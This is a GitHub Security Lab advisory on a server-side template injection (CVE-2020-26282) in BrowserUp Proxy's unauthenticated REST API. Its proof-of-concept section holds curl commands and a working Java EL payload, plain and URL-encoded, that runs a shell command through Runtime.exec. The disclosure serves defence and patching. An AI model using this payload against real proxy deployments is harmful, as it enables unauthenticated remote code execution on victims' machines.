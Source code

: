 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">January 12, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-213: Server-Side Template Injection in BrowserUp Proxy - CVE-2020-26282</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/pwntester">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/125701?s=35" height="35" width="35">
        <span>Alvaro Munoz</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>11/10/2020: Report sent to ebeland@gmail.com</li>
  <li>12/22/2020: Fix is released</li>
</ul>

<h2 id="summary">Summary</h2>
<p>A Server-Side Template Injection was identified in BrowserUp Proxy enabling attackers to inject arbitrary Java EL expressions, leading to an unauthenticated Remote Code Execution (RCE) vulnerability.</p>

<h2 id="product">Product</h2>
<p>BrowserUp Proxy</p>

<h2 id="tested-version">Tested Version</h2>
<p>latest commit to the date of testing: 10147c3</p>

<h2 id="details">Details</h2>

<h3 id="remote-code-execution---javael-injection">Remote Code Execution - JavaEL Injection</h3>

<p>It is possible to run arbitrary code on the machine running the BrowserUp Proxy by injecting arbitrary Java Expression Language (EL) expressions.</p>

<p>BrowserUp Proxy uses Java Bean Validation (JSR 380) custom constraint validators such as  <a href="https://github.com/browserup/browserup-proxy/blob/master/browserup-proxy-rest/src/main/java/com/browserup/bup/rest/validation/PatternConstraint.java"><code class="language-plaintext highlighter-rouge">PatternConstraint</code></a>. When building custom constraint violation error messages, it is important to understand that they support different types of interpolation, including <a href="https://docs.jboss.org/hibernate/validator/5.1/reference/en-US/html/chapter-message-interpolation.html#section-interpolation-with-message-expressions">Java EL expressions</a>. Therefore if an attacker can inject arbitrary data in the error message template passed to <code class="language-plaintext highlighter-rouge">ConstraintValidatorContext.buildConstraintViolationWithTemplate()</code>, they will be able to run arbitrary Java code. Unfortunately, it is common that validated (and therefore, normally untrusted) bean properties flow into the custom error message. In this case <code class="language-plaintext highlighter-rouge">PatternConstraint</code> validates attacker controlled strings which are included in the custom constraint error validation message:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>    <span class="kd">public</span> <span class="kt">boolean</span> <span class="nf">isValid</span><span class="o">(</span><span class="nc">String</span> <span class="n">value</span><span class="o">,</span> <span class="nc">ConstraintValidatorContext</span> <span class="n">context</span><span class="o">)</span> <span class="o">{</span>
      <span class="k">if</span> <span class="o">(</span><span class="nc">StringUtils</span><span class="o">.</span><span class="na">isEmpty</span><span class="o">(</span><span class="n">value</span><span class="o">))</span> <span class="o">{</span>
        <span class="k">return</span> <span class="kc">true</span><span class="o">;</span>
      <span class="o">}</span>

      <span class="k">try</span> <span class="o">{</span>
        <span class="nc">Pattern</span><span class="o">.</span><span class="na">compile</span><span class="o">(</span><span class="n">value</span><span class="o">);</span>
        <span class="k">return</span> <span class="kc">true</span><span class="o">;</span>
      <span class="o">}</span> <span class="k">catch</span> <span class="o">(</span><span class="nc">Exception</span> <span class="n">ex</span><span class="o">)</span> <span class="o">{</span>
        <span class="nc">String</span> <span class="n">errorMessage</span> <span class="o">=</span> <span class="nc">String</span><span class="o">.</span><span class="na">format</span><span class="o">(</span><span class="s">"URL parameter '%s' is not a valid regexp"</span><span class="o">,</span> <span class="n">value</span><span class="o">);</span>
        <span class="no">LOG</span><span class="o">.</span><span class="na">warn</span><span class="o">(</span><span class="n">errorMessage</span><span class="o">);</span>

        <span class="n">context</span><span class="o">.</span><span class="na">buildConstraintViolationWithTemplate</span><span class="o">(</span><span class="n">errorMessage</span><span class="o">).</span><span class="na">addConstraintViolation</span><span class="o">();</span>
      <span class="o">}</span>
      <span class="k">return</span> <span class="kc">false</span><span class="o">;</span>
    <span class="o">}</span>
</code></pre></div></div>

<p>This vulnerability affects the REST API which is run in the standalone mode. The following are some of the entrypoints an attacker could use to supply an attack payload:</p>

<ul>
  <li>https://github.com/browserup/browserup-proxy/blob/master/browserup-proxy-rest/src/main/java/com/browserup/bup/rest/resource/entries/EntriesProxyResource.java
    <ul>
      <li>GET <code class="language-plaintext highlighter-rouge">/proxy/{port}/har/entries?=urlPattern=&lt;payload&gt;</code></li>
      <li>GET <code class="language-plaintext highlighter-rouge">/proxy/{port}/har/entries/assertResponseTimeLessThanOrEqual?=urlPattern=&lt;payload&gt;</code></li>
      <li>…</li>
    </ul>
  </li>
  <li>https://github.com/browserup/browserup-proxy/blob/master/browserup-proxy-rest/src/main/java/com/browserup/bup/rest/resource/mostrecent/MostRecentEntryProxyResource.java
    <ul>
      <li>GET <code class="language-plaintext highlighter-rouge">/proxy/{port}/har/mostRecentEntry?=urlPattern=&lt;payload&gt;</code></li>
      <li>…</li>
    </ul>
  </li>
</ul>

<p>The default configuration properties for the REST API allows unauthenticated access and binds the server to 0.0.0.0:</p>

<p><code class="language-plaintext highlighter-rouge">proxyUsername</code> - String, The username to use to authenticate with the chained proxy. Optional, <strong>default to null</strong>.</p>

<p><code class="language-plaintext highlighter-rouge">proxyPassword</code> - String, The password to use to authenticate with the chained proxy. Optional, <strong>default to null</strong>.</p>

<p><code class="language-plaintext highlighter-rouge">trustAllServers</code> - Boolean. True, Disables verification of all upstream servers’ SSL certificates. All upstream servers will be trusted, even if they do not present valid certificates signed by certification authorities in the JDK’s trust store. Optional, <strong>default to “false”</strong>.</p>

<p><code class="language-plaintext highlighter-rouge">bindAddress</code> - String, If running BrowserUp Proxy in a multi-homed environment, specify a desired bind address. Optional, <strong>default to “0.0.0.0”</strong>.</p>

<h4 id="poc">PoC</h4>

<p>In order to reproduce this vulnerability you can use the following steps:</p>

<ol>
  <li>Start BrowserUp Proxy either programmatically or using the standalone application:
    <div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>$&gt; ./browserup-proxy -port 8080`
</code></pre></div>    </div>
  </li>
</ol>

<p>In a real attack scenario the proxy would be started by the victim while running tests or for other purposes. Note that the proxy is bound to all interfaces by default so an attacker could reach the test server if it is exposed</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>$&gt; netstat -p tcp -van | grep LISTEN
tcp46      0      0  *.8081                 *.*                    LISTEN      131072 131072  91783      0 0x0100 0x00000006
tcp46      0      0  *.8080                 *.*                    LISTEN      131072 131072  91783      0 0x0000 0x00000006
...
</code></pre></div></div>

<ol>
  <li>Create a proxy instance (8081).</li>
</ol>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>$&gt; curl -X POST http://localhost:8080/proxy
{"port":8081}
</code></pre></div></div>

<p>Again, in an attack scenario, the proxy would already be started. If that is not the case, an attacker can start a new proxy since this action requires no authentication.</p>

<ol>
  <li>Create a new HAR</li>
</ol>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>$&gt; curl -X PUT http://localhost:8080/proxy/8081/har
</code></pre></div></div>

<ol>
  <li>Force a regexp parse error by using an unclosed parenthesis and inject the payload (eg: <code class="language-plaintext highlighter-rouge">${1+1}</code>)</li>
</ol>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>$&gt; curl -X GET http://localhost:8080/proxy/8081/har/entries\?urlPattern=foo%24%7B1%2B1%7D\(
{"errors":[{"name":"urlPattern","errors":["URL parameter 'foo2(' is not a valid regexp"]}]}
</code></pre></div></div>

<p>To run arbitrary commands try the following payload:</p>
<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>${''.class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec("touch /tmp/test")')}
</code></pre></div></div>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>$&gt; curl -X GET http://localhost:8080/proxy/8081/har/entries\?urlPattern=%24%7b%27%27%2e%63%6c%61%73%73%2e%66%6f%72%4e%61%6d%65%28%27%6a%61%76%61%78%2e%73%63%72%69%70%74%2e%53%63%72%69%70%74%45%6e%67%69%6e%65%4d%61%6e%61%67%65%72%27%29%2e%6e%65%77%49%6e%73%74%61%6e%63%65%28%29%2e%67%65%74%45%6e%67%69%6e%65%42%79%4e%61%6d%65%28%27%6a%73%27%29%2e%65%76%61%6c%28%27%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%74%65%73%74%22%29%27%29%7d\(
{"errors":[{"name":"urlPattern","errors":["URL parameter 'java.lang.UNIXProcess@4cc4c20f(' is not a valid regexp"]}]}% 

</code></pre></div></div>

<p>The <code class="language-plaintext highlighter-rouge">java.lang.UNIXProcess@583d3ad2</code> part proves that the process was run, and a filed called <code class="language-plaintext highlighter-rouge">test</code> will be written to <code class="language-plaintext highlighter-rouge">/tmp</code></p>

<h4 id="impact">Impact</h4>

<p>This issue leads to Remote Code execution</p>

<h2 id="cve">CVE</h2>
<ul>
  <li>CVE-2020-26282</li>
</ul>

<h2 id="resources">Resources</h2>
<ul>
  <li>https://github.com/browserup/browserup-proxy/security/advisories/GHSA-wmfg-55f9-j8hq</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Muñoz)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-213</code> in any communication regarding this